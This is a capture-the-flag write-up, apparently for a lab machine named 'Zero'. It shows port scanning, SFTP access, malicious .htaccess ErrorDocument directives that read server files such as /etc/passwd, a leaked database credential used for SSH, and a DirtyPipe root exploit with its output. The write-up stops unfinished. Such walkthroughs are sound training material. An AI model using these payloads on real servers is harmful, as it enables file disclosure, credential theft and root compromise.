

# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.88.2
```
# Ports

```console
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
``` 

## Signup Functions

On the site, there is a "signup function" at ```http://10.10.88.2/signup.php``` which gives us credentials to login in ```sftp``` (like the machien ```Ten```)

We can access to ```sftp``` like that


Or like that 

```bash
# sftp zro-063e275e@10.10.88.2

zro-063e275e@10.10.88.2's password:
Connected to 10.10.88.2.
sftp> ls -la
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 public_html
```
## Upload file in SFTP

(First of all, i tried to upload some php files etc but it doesn't work)

So there is a directory ```public_html```

```bash
sftp> ls -la
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
-rw-r--r--    1 root     root           49 Feb 18 19:27 .htaccess
-rw-r--r--    1 1007     1007          349 Feb 15  2019 index.html
```
We basically don't care about ```index.html``` but ```.htaccess``` is an interesting file

## Replace .HTACCESS to read a file

I tried many things with [this tool](https://github.com/wireghoul/htshells) but nothing worked.

I then remembered the ```Ten``` machine made by [Jkr](https://x.com/ateamjkr) (knowing that Zero was also made by jkr) and so I went to look at the Apache docs to find how I could make this ```.htaccess``` file interesting

First, I found this https://httpd.apache.org/docs/2.4/custom-error.html

It doesn't seem very useful at first but let's keep this doc in mind

I then did some research on how to make a ```.htaccess file``` "malicious" and I found this doc : https://blog.sucuri.net/2024/03/what-is-htaccess-malware-detection-symptoms-prevention.html

Using this payload :

```console
ErrorDocument 404 http://10.8.2.163/inject/index.php
```
I managed to receive a get on my python server by reaching a non existing file ```GET /~zro-063e275e/test/aaaa HTTP/1.1```



```console
NOTE : I created "toto" directory to avoid breaking the "public_html" directory and i gave all rights to the .htaccess file in my toto directory

Knowing that i create the .htaccess file on my attacking machine with root rights, if i do not change the rights, i would not be able to read the file on the website with my user who has a UID of 1006
```


But i couldn't get anything conclusive from it, so i tried reading files on the target machine instead

Back to the apache doc https://httpd.apache.org/docs/current/expr.html#functions

```file Read contents from a file (including line endings, when present) ```

This function is interesting, so we can change our payload like that 

```console
# ErrorDocument 404 http://10.8.2.163/inject/index.php
ErrorDocument 404 %{file:/etc/passwd}
```
And it works !!

To avoid wasting time I'm not going to say all the files I tried to read but in summary it was enough to read ```/var/www/html/stats.php```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: zero.vl' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    $'http://zero.vl/~zro-063e275e/test/aaaa'
```

```"localhost", "zroadmin", "REDACTED"```

Now login with ssh

## Unintended ROOT (quick win)
After some enumerations i found a quick win (dirtypipe)

```bash
zroadmin@ip-10-10-10-13:/tmp$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),666(zroadmin)
```
But of course I want to try to resolve the box by the intended so I will take this WU again when I have found the intended way

## To finish...

To finish.......
